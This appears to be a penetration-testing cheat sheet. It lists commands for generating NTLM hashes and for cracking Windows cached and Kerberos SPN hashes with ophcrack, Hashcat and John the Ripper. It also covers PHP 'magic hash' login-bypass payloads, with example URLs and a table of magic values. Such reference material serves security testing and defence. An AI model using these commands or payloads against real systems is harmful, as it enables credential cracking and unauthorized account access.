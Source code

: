 #### Create NTLM Hash from Mac CLI
```
    echo -n password | iconv -t UTF-16LE | openssl md4
```

#### Hash Cracking Examples
ophcrack using tables
```
    ophcrack -d /Volumes/data/table_vista_free/ -t /Volumes/data/table_vista_free -f ~/Desktop/ntlm.hashdump
```

Crack mscachev2 format with Hashcat (extremely slow)
```
    ./hashcat -m 2100 -a 0 mscachev2.dump ./wordlists/* -r rules/dive.rule
```

Hashcat SPNs with wordlist
```
    ./hashcat -m 13100 -a 0 spns.dump ./wordlists/* -r rules/dive.rule
```

JTR SPNs with wordlist
```
    ./john --format=krb5tgs spns.dump --wordlist=
```

#### Magic Hashes

Source: https://www.whitehatsec.com/blog/magic-hashes/

Use Case 1: Use the “Magic” Number below as a password or as a string that you expect to be hashed. When it is compared against the hash of the actual value, and if they both are treated as “0” and therefore evaluated as true, you will be able to log into the account without the valid password. This could be forced to happen in environments where automatic passwords are chosen for users during a forgot password flow and then attempting to log in immediately afterwards, as an example.

 - https://example.com/login.php?user=bob&pass=240610708

Use Case 2: The attacker can simply take the example in the Hash column in the table below and use it as a value. In some cases these values are simply done as a look-up against known values (in memory, or perhaps dumped from a database and compared). By simply submitting the hash value, the magic hash may collide with other hashes which both are treated as “0” and therefore compare to be true. This could be caused to happen

  * https://example.com/login.php?user=bob&token=0e462097431906509019562988736854

Hashes
```
    HashType    HashLength “Magic”Number    Magic Hash                                  Found By
    md2         32          505144726       0e015339760548602306096794382326            WhiteHat Security, Inc.
    md4         32          48291204        0e266546927425668450445617970135            WhiteHat Security, Inc.
    md5         32          240610708       0e462097431906509019562988736854            Michal Spacek
    sha1        40          10932435112     0e07766915004133176347055865026311692244    Independently found by Michael A. Cleverly & Michele Spagnuolo & Rogdham
    sha224      56          
    sha256      64          
    sha384      96          
    sha512      128         
    ripemd128   32          315655854       0e251331818775808475952406672980            WhiteHat Security, Inc.
    ripemd160   40          20583002034     00e1839085851394356611454660337505469745    Michael A Cleverly
    ripemd256   64          
    ripemd320   80          
    whirlpool   128         
```